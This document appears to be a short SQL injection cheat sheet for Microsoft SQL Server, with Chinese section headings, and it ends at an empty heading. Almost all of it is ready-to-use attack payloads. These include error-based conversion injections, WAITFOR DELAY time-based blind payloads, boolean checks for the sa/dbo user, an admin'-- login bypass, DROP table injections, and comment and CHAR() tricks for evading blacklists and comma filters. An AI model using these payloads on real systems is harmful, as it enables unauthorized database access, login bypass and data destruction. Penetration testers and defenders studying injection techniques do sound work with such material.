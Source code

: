 ```txt
Error Based SQLi
For integer inputs : convert(int,@@version)
For string inputs  : ' + convert(int,@@version) +'

The attacks above should throw conversion errors.
Clear SQLi Tests These tests are simply good for boolean sql injection and silent attacks.

product.asp?id=4
product.asp?id=5-1
product.asp?id=4 OR 1=1
```

## 时间盲注

```txt
WAITFOR DELAY
'0:0:10'--
Real World Samples ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--

注释：
DROP sampletable;--
DROP sampletable;# 
Username: admin'--
SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'

DROP/*comment*/sampletable
DR/**/OP/*bypass blacklisting*/sampletable
```

## 布尔盲注

```txt
SQL Server If Statement
IF condition true-part ELSE false-part (S)
IF (1=1) SELECT 'true' ELSE SELECT 'false'
If Statement SQL Injection Attack Samples

if ((select user) = 'sa' OR (select user) = 'dbo') select 1 else select 1/0 (S)
This will throw an divide by zero error if current logged user is not "sa" or "dbo".

绕过逗号：
SELECT CHAR(75)+CHAR(76)+CHAR(77)
This will return 'KLM'.
```

## 特殊查询
